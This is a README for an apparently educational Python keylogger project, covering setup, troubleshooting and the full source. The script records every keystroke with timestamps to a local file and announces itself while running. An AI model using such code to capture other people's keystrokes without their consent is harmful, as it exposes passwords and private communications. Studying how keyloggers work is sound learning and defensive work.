 # Keylogger_Project

## Project Description

This project is a Python-based keylogger designed to capture keystrokes and store them in a local text file. It was created for learning and exploration purposes, and it demonstrates the use of libraries and logging functionality in Python.

## ⚠️ Disclaimer

This project is intended strictly for educational and testing purposes. Unauthorized or malicious use of this script for tracking keystrokes or other unauthorized activities may violate privacy laws and is strictly prohibited. By using this project, you agree to adhere to all applicable laws and use this code responsibly. The author does not endorse or condone the use of this script for any unlawful or unauthorized purposes.

## Learning Objectives

The goals for this project included:
   
   Building a functional keylogger script in Python.
   Understanding and resolving issues with virtual environments and package installations.
   Gaining familiarity with troubleshooting techniques in different development environments (WSL and native Windows).

## Prerequisites:

   - Python 3.10 or later
   - pynput package
   - Virtual environment setup (optional)

## Setup and Installation
  ### 1. Clone the repository:

    git clone https://github.com/yourusername/Keylogger_Project.git

  ### 2. Create a virtual environment:

    python3 -m venv keylogger_env

  ### 3. Activate the environment:

  ### For Windows:

      keylogger_env\Scripts\activate

  ### For WSL/Linux:

      source keylogger_env/bin/activate

  ### 4. Install dependencies:

    pip install pynput

## Usage

  1. Run the script:

    python3 keylogger_script.py

  2. Log files will be generated in the same directory as <keylogger_script.py>.


## Key Challenges and Solutions

During this project, several challenges were encountered and resolved:

   1. Issue: ModuleNotFoundError for pynput
        -Solution: Verified virtual environment installation and activated it correctly. Found that sudo bypassed the virtual environment, so permissions were managed without sudo.

   2. Environment-Specific Issues:
        -Problem: Script did not initially work on WSL.
        -Solution: Troubleshot environment by switching to a native Windows environment. This helped verify if WSL-specific permissions were the source of the issue.

   3. Permissions:
        -Solution: Adjusted file permissions in Ubuntu to ensure the script could write to the log file, especially when running without elevated permissions.

## Script Overview

This Python script listens for key presses and logs them to a file (`key_log.txt`). It uses the `pynput` library to capture key events and the `logging` module to record them with timestamps.

### How It Works:
  1. The script monitors all key presses and logs each key pressed to a log file.
  2. Special keys (like Shift, Ctrl, etc.) are also logged as "special key" presses.
  3. The script stops when the `Esc` key is pressed.

### Logging:
  - All key presses are logged in the `key_log.txt` file, with a timestamp of when each key was pressed.

python
    
    import logging
    from pynput import keyboard
    from datetime import datetime

    # Set up logging
    log_file_path = "key_log.txt"
    logging.basicConfig(filename=log_file_path, level=logging.DEBUG, format='%(asctime)s: %(message)s')

    def on_press(key):
      try:
          logging.info(f'Key {key.char} pressed')
      except AttributeError:
          logging.info(f'Special key {key} pressed')

    def on_release(key):
       if key == keyboard.Key.esc:
          return False  # Stop listener

    if __name__ == "__main__":
        print("Keylogger is running...")
        with keyboard.Listener(on_press=on_press, on_release=on_release) as listener:
            listener.join()


## Future Improvements

  - Error Handling: Add error handling for different environments.
  - Dynamic File Paths: Allow for customizable log file paths.
